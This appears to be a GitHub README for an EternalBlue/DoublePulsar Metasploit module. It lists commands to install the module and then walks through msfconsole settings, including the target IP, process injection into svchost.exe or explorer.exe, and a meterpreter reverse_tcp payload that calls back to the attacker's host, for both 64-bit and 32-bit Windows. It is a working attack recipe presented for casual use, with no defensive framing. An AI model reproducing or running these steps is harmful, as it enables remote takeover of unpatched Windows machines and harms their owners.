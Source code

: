 # Eternalblue-Doublepulsar-Metasploit

# How to Install

~# dpkg --add-architecture i386 && apt-get update -y && apt-get install wine32 -y
~# git clone https://github.com/grglzrv/Eternalblue-Doublepulsar-Metasploit.git
~# cd Eternalblue-Doublepulsar-Metasploit
~# cp eternalblue_doublepulsar.rb /usr/share/metasploit-framework/modules/exploits/windows/smb
* Note: Also copy 'deps' directory to /usr/share/metasploit-framework/modules/exploits/windows/smb
~# mkdir -p /root/.wine/drive_c/

# How to use

service postgresql start
service postgresql enable
msfconsole
reload_all 
use exploit/windows/smb/eternalblue_doublepulsar
show options

 - For Windows x64
 
 set RHOST (Target IP)
 set PROCESSINJECT svchost.exe or et PROCESSINJECT svchost.exe
 set TARGETARCHITECTURE x64
 set payload windows/x64/meterpreter/reverse_tcp
 set LHOST (Local IP, check it with 'ip a')
 show targets
 set target 8
 run or exploit
 
 - For Windows x86
 
 set RHOST (Target IP)
 set PROCESSINJECT svchost.exe or et PROCESSINJECT explorer.exe
 set TARGETARCHITECTURE x86
 set payload windows/meterpreter/reverse_tcp
 set LHOST (Local IP, check it with 'ip a')
 show targets
 set target 8
 run or exploit
 
 # Have a Fun! :)
